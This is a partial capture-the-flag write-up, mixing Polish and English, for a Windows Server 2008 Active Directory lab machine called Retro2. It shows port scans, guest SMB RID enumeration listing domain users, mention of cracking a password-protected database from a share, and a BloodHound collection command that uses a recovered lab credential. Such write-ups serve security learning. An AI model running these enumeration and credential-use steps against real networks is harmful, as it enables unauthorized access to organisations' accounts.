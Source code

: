 # Retro2
Windows, easy, created by **xct**

![retro2_slide](https://github.com/user-attachments/assets/ab901566-51ff-4a6d-a50a-27ab2d5ba80d)


```
53/tcp    open  domain             Microsoft DNS 6.1.7601 (1DB15F75) (Windows Server 2008 R2 SP1)
53/udp  open  domain       Microsoft DNS 6.1.7601 (1DB15F75) (Windows Server 2008 R2 SP1)
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-11-27 16:18:14Z)
123/udp open  ntp          NTP v3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
389/tcp   open  ldap               Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds       Windows Server 2008 R2 Datacenter 7601 Service Pack 1 microsoft-ds (workgroup: RETRO2)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap               Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ssl/ms-wbt-server?
5722/tcp  open  msrpc              Microsoft Windows RPC
9389/tcp  open  mc-nmf             .NET Message Framing
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc              Microsoft Windows RPC
49172/tcp open  msrpc              Microsoft Windows RPC

```

Windows Server 2008? veeeeery old

`| ssl-cert: Subject: commonName=BLN01.retro2.vl`

```
enum4linux -a 10.10.77.186
enum4linux -u guest -a 10.10.77.186
enum4linux -u anonymous -a 10.10.77.186
```
![{89061595-56DD-4A54-B3F0-94978B62B218}](https://github.com/user-attachments/assets/9cd64afc-7142-4de4-aaec-7f44bd22c526)

```
nxc smb 10.10.77.186 -u guest -p '' --rid
SMB         10.10.77.186    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.77.186    445    BLN01            [+] retro2.vl\guest: 
SMB         10.10.77.186    445    BLN01            498: RETRO2\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            500: RETRO2\Administrator (SidTypeUser)
SMB         10.10.77.186    445    BLN01            501: RETRO2\Guest (SidTypeUser)
SMB         10.10.77.186    445    BLN01            502: RETRO2\krbtgt (SidTypeUser)
SMB         10.10.77.186    445    BLN01            512: RETRO2\Domain Admins (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            513: RETRO2\Domain Users (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            514: RETRO2\Domain Guests (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            515: RETRO2\Domain Computers (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            516: RETRO2\Domain Controllers (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            517: RETRO2\Cert Publishers (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            518: RETRO2\Schema Admins (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            519: RETRO2\Enterprise Admins (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            520: RETRO2\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            521: RETRO2\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            553: RETRO2\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            571: RETRO2\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            572: RETRO2\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            1000: RETRO2\admin (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1001: RETRO2\BLN01$ (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1102: RETRO2\DnsAdmins (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            1103: RETRO2\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            1104: RETRO2\staff (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            1105: RETRO2\Julie.Martin (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1106: RETRO2\Clare.Smith (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1107: RETRO2\Laura.Davies (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1108: RETRO2\Rhys.Richards (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1109: RETRO2\Leah.Robinson (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1110: RETRO2\Michelle.Bird (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1111: RETRO2\Kayleigh.Stephenson (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1112: RETRO2\Charles.Singh (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1113: RETRO2\Sam.Humphreys (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1114: RETRO2\Margaret.Austin (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1115: RETRO2\Caroline.James (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1116: RETRO2\Lynda.Giles (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1117: RETRO2\Emily.Price (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1118: RETRO2\Lynne.Dennis (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1119: RETRO2\Alexandra.Black (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1120: RETRO2\Alex.Scott (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1121: RETRO2\Mandy.Davies (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1122: RETRO2\Marilyn.Whitehouse (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1123: RETRO2\Lindsey.Harrison (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1124: RETRO2\Sally.Davey (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1127: RETRO2\ADMWS01$ (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1128: RETRO2\inventory (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1129: RETRO2\services (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            1130: RETRO2\ldapreader (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1131: RETRO2\FS01$ (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1132: RETRO2\FS02$ (SidTypeUser)
```

zrobiłem sobie listę userów

![{602E1215-F958-4268-B1B0-5F76314C104A}](https://github.com/user-attachments/assets/f9b356e5-c6f4-4daa-9355-bc9364d35bc7)

asproasting odpada

![{4CCFEF23-D952-4BD1-8C78-EB3C7BCAB559}](https://github.com/user-attachments/assets/abb1eb99-f41a-4978-a37f-d2460f536113)

Dobra znowu guest share

![{54F60447-BC72-4495-A3B7-769A822D41D7}](https://github.com/user-attachments/assets/274d1a74-2b42-4218-9836-a986b5c6815f)

![{0025D800-4CB0-462A-87BE-DF5FEC8E0160}](https://github.com/user-attachments/assets/104b347f-038f-4738-8cb8-b826eaffedbf)

![{E38E8869-3450-41CC-B015-907860CA390F}](https://github.com/user-attachments/assets/ac39365f-2411-4432-a30f-107e613f028f)

Database is password protected

![{6276DCDB-FAAD-4469-AD22-AEC492660FC5}](https://github.com/user-attachments/assets/03c0ecad-08f5-4414-a50b-57fa92c49e3e)

Fast cracking

![cracking](https://github.com/user-attachments/assets/4e6e98f5-1368-4806-93af-e49d5562f858)

I exported data to .txt file

![{6539CF70-EE3A-4923-9B61-E5D5FDCCC84D}](https://github.com/user-attachments/assets/6338b160-551c-4018-8be6-23f783530bbe)


![cracking](https://github.com/user-attachments/assets/86b4fa51-ce76-4126-9474-426bf06c1cb7)
![pass](https://github.com/user-attachments/assets/46b9cf5f-57d9-4fc6-bdfc-bd83e1d09a8e)

`ldapreader` więc chyba coś z ldapem hehe.
Ale ja machnę bloodhounda bo to samo da i więcej

`bloodhound-python -d retro2.vl -c all -u ldapreader -p ppYaVcB5R -ns 10.10.77.186`


